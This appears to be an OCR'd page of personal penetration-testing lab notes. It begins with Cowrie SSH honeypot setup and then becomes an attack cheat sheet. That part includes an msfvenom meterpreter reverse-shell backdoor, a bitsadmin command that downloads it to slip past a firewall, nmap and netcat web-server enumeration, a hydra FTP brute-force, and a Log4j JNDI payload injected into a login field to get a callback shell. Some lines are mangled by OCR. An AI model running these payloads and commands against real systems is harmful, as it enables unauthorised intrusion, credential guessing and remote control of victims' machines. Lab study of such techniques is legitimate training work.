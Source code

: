 ### HONEYPOT COWRIE SSH Conf

**sudo adduser --disabled-password cowrie**

22 redirect 2222” **iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-port 2222”**

**22 port non root listening: “touch /etc/authbind/byport/22” >> “chown cowrie:cowrie /etc/authbind/byport/22” >> “** **chmod 770 /etc/authbind/byport/22”**

virtual env conf: “ **virtualenv --python=python3 cowrie-env” >> “source cowrie-env/local/bin/activate” >> bin/cowrie start** 

### EVADE Firewall with BITSADMIN

**Create backdoor:** “msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Exploit.exe”

**Evade firewall command:** bitsadmin /transfer Exploit.exe http://10.10.1.13/share/Exploit.exe c:\Exploit.exe



#  Web Servers

### Footprint web server

**nc -vv www.xxx.com 80 >> “GET / HTTP/1.0”** 

telnet www.xxx.com 80 **>> “GET / HTTP/1.0”** 

### ENUM WEB Server info using nmap

**Web server enum dirctory info:** nmap -sV --script=http-enum  siteadres.com

**Web server host and user enum:** nmap --script hostmap-bfk -script-args hostmap-bfk.prefix=hostmap- siteadres.com

**Cross-Site Tracing (XST) vuln echo request:** nmap --script http-trace -d siteadres.com

**Waf detect:** nmap -p80 --script http-waf-detect sitead.co

### WebServer Attack

**FTP attack:**   hydra -L /home/attacker/Desktop/Wordlists/Usernames.txt -P /home/attacker/Desktop/Wordlists/Passwords.txt ftp://[Windows 11'in IP Adresi] 

**Log4j Vulnerability**

**nmap scanning target ip result:** apache coyote 

**Listening:** nc -lvp 9001 

**python3 poc.py --userip my self ip --webport 8000 --lport 9001**

target apache coyote login page >> user name field payload “;{jndi:ldap://10.10.1.13:1389/a}”
pwned

